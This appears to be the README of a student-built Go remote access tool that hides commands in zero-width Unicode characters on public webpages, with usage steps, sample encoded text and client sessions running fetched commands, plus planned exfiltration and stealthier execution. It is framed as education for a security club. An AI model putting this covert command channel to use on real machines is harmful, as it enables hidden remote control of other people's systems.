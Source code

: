 # GoNull C2 Framework

A C2 (Command and Control) Remote Access Tool (RAT) system that uses null-width characters hidden on public webpages to send commands.

**Disclaimer:** This project is for educational and demonstration purposes only, specifically for a university cybersecurity club. It should not be used for any malicious activities.

## Project Goals

*   Demonstrate steganography techniques for covert communication.
*   Explore C2 mechanisms.
*   Provide a learning platform for cybersecurity concepts.

## Features (Planned)

*   **Server:**
    *   Encodes commands using null-width characters.
    *   Helps place text with embedded commands (currently by printing to console).
    *   Receives exfiltrated data from clients (Future Goal).
*   **Client (RAT):**
    *   Fetches web content from a URL.
    *   Extracts and decodes commands from null-width characters found in the fetched content.
    *   Executes the decoded commands on the host system.
    *   Displays command output to the console.
    *   Sends results back to the server (Future Goal).

## How it Works

The system relies on embedding binary representations of commands into regular text using Unicode null-width characters. For example:

*   `U+200B` (Zero Width Space) might represent a binary '0'.
*   `U+200C` (Zero Width Non-Joiner) might represent a binary '1'.

The client fetches a seemingly innocuous webpage, extracts these hidden characters, reconstructs the command, executes it, and sends back the output.

## Setup & Usage

This project requires Go to be installed on your system.

### 1. Clone the Repository (if applicable)

```bash
git clone <repository-url>
cd GoNull
```

### 2. Running the Server (`cmd/server/main.go`)

The server application is responsible for encoding a command you provide into null-width characters and embedding it within a piece of cover text.

**Steps:**

1.  Navigate to the project's root directory in your terminal.
2.  Run the server:
    ```bash
    go run cmd/server/main.go
    ```
3.  The application will prompt you to:
    *   `Enter command to encode:` Type the command you want the client to execute (e.g., `ls -la`, `whoami`).
    *   `Enter cover text (e.g., a sentence or paragraph):` Provide some text that will be used to hide the encoded command. If you leave this blank, a default placeholder text will be used.

4.  The server will then output:
    *   The cover text with the embedded null-width command.
    *   A quoted version of this text for easy and accurate copying.
    *   A server-side verification of whether the command could be extracted and decoded correctly from its own output.

**Example Server Interaction:**

```
$ go run cmd/server/main.go
Enter command to encode: id
Enter cover text (e.g., a sentence or paragraph): This is a friendly message for the club.

--- Text with Embedded Command ---
This is ‎​‌‌​‌​‌​​‌‌​‌‌​‌‏a friendly message for the club.
--- End of Text --- reproducing it exactly for verification ---
"This is \u200e\u200b\u200c\u200c\u200b\u200c\u200b\u200c\u200b\u200b\u200c\u200c\u200b\u200c\u200c\u200b\u200c\u200fa friendly message for the club."
...
2023/10/27 10:00:00 Server-side verification: Successfully decoded command: 'id'
```

5.  **Copy the output text** (the line between `--- Text with Embedded Command ---` and `--- End of Text ---`, or the quoted string). This text is what you would place on a public webpage, social media post, etc., for the client to retrieve.

### 3. Running the Client (`cmd/client/main.go`)

The client application is responsible for fetching web content from a URL, attempting to extract a hidden null-width command from that content, decoding it, and then executing it on the local system.

**Steps:**

1.  Navigate to the project's root directory in your terminal.
2.  Run the client:
    ```bash
    go run cmd/client/main.go
    ```
3.  The application will prompt you to:
    *   `Enter the URL to fetch content from:` Enter the full URL of the webpage where the command-carrying text is located (e.g., a Steam profile, a forum post).

4.  The client will then:
    *   Attempt to fetch the content from the provided URL.
    *   If successful, it will process the fetched content (e.g., HTML) to find and extract the null-width characters.
    *   Decode these characters back into a command string.
    *   Print the decoded command.
    *   Execute the decoded command and print its standard output/error.

**Example Client Interaction:**

Assume the server was used to embed the command `echo Hello from GoNull` into text on a webpage at `<URL_of_webpage_with_hidden_command>`.

```
$ go run cmd/client/main.go
Enter the URL to fetch content from: <URL_of_webpage_with_hidden_command>
YYYY/MM/DD HH:MM:SS Fetching content from: <URL_of_webpage_with_hidden_command>
YYYY/MM/DD HH:MM:SS Attempting to extract hidden command from fetched content...

--- Decoded Command ---
Command: 'echo Hello from GoNull'
--- End of Command --- 

YYYY/MM/DD HH:MM:SS Executing command: 'echo Hello from GoNull'

--- Command Output ---
Hello from GoNull
--- End of Output --- 

YYYY/MM/DD HH:MM:SS Client finished operation.
```

*(Note: The success of fetching and extraction depends on the accessibility of the URL, its content structure, and whether the null-width characters are preserved by the web platform. The command execution will run with the permissions of the user running the client application.)*

### Next Steps for the Project

*   Explore more sophisticated embedding and extraction techniques (e.g., dealing with specific HTML structures, character encodings, or dynamic content loaded by JavaScript).
*   Error handling and resilience for the client (e.g., retries, timeouts for HTTP requests, more robust command parsing).
*   Stealthier command execution (e.g., running in the background, avoiding console windows on some OSes - though this goes against the "no evasion" principle for this project, good to be aware of for general C2).
*   Implement a way for the client to send back command output to the server (e.g., via another steganographic message or a direct HTTP POST).

## Contributing

(To be added)